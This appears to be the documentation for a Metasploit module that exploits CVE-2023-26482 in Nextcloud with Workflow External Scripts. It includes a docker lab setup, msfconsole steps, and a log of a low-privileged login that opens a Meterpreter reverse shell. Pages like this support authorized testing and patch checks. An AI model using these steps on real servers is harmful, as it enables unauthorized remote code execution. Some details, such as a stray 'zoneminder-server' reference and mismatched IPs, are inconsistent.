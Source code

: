 ## Description

This module exploits a command injection that leads to a remote execution in Nextcloud installations if the app Workflow External Scripts is also installed. 
The vulnerability affects Nextcloud versions >= 24.0.0, >= 25.0.0, >= 18.0.0, >= 19.0.0, >= 20.0.0, >= 21.0.0, >= 22.0.0, >= 23.0.0, >= 24.0.0, >= 25.0.0

A missing scope validation allowed users to create workflows which are designed to be only available for administrators. In combination with Workflow External Script, this vulnerability
leads to authenticated remote command execution.

More about the vulnerability detail: [CVE-2023-26482](https://cve.mitre.org/cgi-bin/cvename.cgi?name=2023-26482).

The module will automatically use `cmd/linux/http/x64/meterpreter/reverse_tcp` payload.

The module will check if the target is vulnerable, by adding and removing a dummy-workflow.


## Vulnerable Application

[Nextcloud](https://nextcloud.com/) is a suite of client-server software for creating and using file hosting services.

This module has been tested successfully on Nextcloud versions:

* Nextcloud version 24.0.5

### Source and Installers

* [Source Code Repository](https://github.com/nextcloud/server/releases/tag/v24.0.5)
* [Docker](https://hub.docker.com/_/nextcloud)

### Docker Installation

This exploit was tested using a [nextcloud docker container](https://hub.docker.com/_/nextcloud) and [docker-compose](https://docs.docker.com/compose/)
with the following docker-compose.yml:

```yaml
volumes:
  nextcloud:
  db:

services:
  db:
    image: mariadb:10.6
    restart: always
    command: --transaction-isolation=READ-COMMITTED --log-bin=binlog --binlog-format=ROW
    volumes:
      - db:/var/lib/mysql
    environment:
      - MARIADB_ROOT_PASSWORD=root
      - MARIADB_PASSWORD=root
      - MARIADB_DATABASE=nextcloud
      - MARIADB_USER=nextcloud

  app:
    image: nextcloud:24.0.5
    restart: always
    ports:
      - 8080:80
    links:
      - db
    environment:
      - MYSQL_PASSWORD=root
      - MYSQL_DATABASE=nextcloud
      - MYSQL_USER=root
      - MYSQL_HOST=db
      - NEXTCLOUD_ADMIN_PASSWORD=admin
      - NEXTCLOUD_ADMIN_USER=admin
      - NEXTCLOUD_TRUSTED_DOMAINS="192.168.233.64:8080"
    depends_on:
      - db
```

**_NOTE:_** Change the IP-address and port for NEXTCLOUD_TRUSTED_DOMAINS for your setup

After `docker compose up -d` login as admin and install the workflow app: "Workflow external script" and
create a low privileged user `alice`. Make sure that you choose "Cron(Recommended)" in the Settings for "Background Jobs".
Before we can run the exploit, we need to start the cronjob. This is crucial because otherwise the
payload doesn't get triggered:

```
docker exec -it -u www-data nextcloud-app-1 /bin/bash`
watch -n2 php cron.php
```

Wait until you the watch-command outputs something like: "Every 2.0s: php cron.php". 

## Verification Steps
Example steps in this format (is also in the PR):

1. Do: `use exploit/unix/webapp/nextcloud_workflows_rce`
2. Do: `set RHOSTS [ips]`
3. Do: `set LHOST [lhost]`
4. Do: `set RPORT 8080`
5. Do: `set USERNAME alice`
6. Do: `set PASSWORD alice-password`
7. Do: `run`
8. You should get a shell after a while

## Options

### TARGETURI

Remote web path to the nextcloud installation (default: /)

### USERNAME

The low-privileged username to authenticate to nextcloud

### PASSWORD

The password for the low-privileged user

## Scenarios

In this scenario the zoneminder-server has the IP address 192.42.0.254. The IP address of the metasploit host is
192.42.1.188.

### Nextcloud 24.0.5(docker-compose) 

The following demo shows how to use the exploit:

```
msf6 > use exploit/unix/webapp/nextcloud_workflows_rce
[*] Using configured payload cmd/linux/http/x64/meterpreter/reverse_tcp
msf6 exploit(unix/webapp/nextcloud_workflows_rce) > set RHOSTS 192.168.233.64
RHOSTS => 192.168.233.64
msf6 exploit(unix/webapp/nextcloud_workflows_rce) > set LHOST 192.168.233.117
LHOST => 192.168.233.117
msf6 exploit(unix/webapp/nextcloud_workflows_rce) > set RPORT 8080
RPORT => 8080
msf6 exploit(unix/webapp/nextcloud_workflows_rce) > set USERNAME alice
USERNAME => alice
msf6 exploit(unix/webapp/nextcloud_workflows_rce) > set PASSWORD CaeD4ohchaiv5ieDooBa
PASSWORD => CaeD4ohchaiv5ieDooBa
msf6 exploit(unix/webapp/nextcloud_workflows_rce) > run
[*] Started reverse TCP handler on 192.168.233.117:4444
[*] Sending payload..
[+] Workflow created
[*] Waiting for the payload to connect back ..
[*] Sending stage (3045380 bytes) to 192.168.233.64
[*] Meterpreter session 1 opened (192.168.233.117:4444 -> 192.168.233.64:37090) at 2025-04-10 13:27:49 +0000
[+] Payload connected!
[*] Cleaning up

meterpreter > getuid
Server username: www-data
```

## Limitations
Ensure that your `WfsDelay` advanced option is set to a value that allows `cron` to execute the payload. Default is 16 minutes
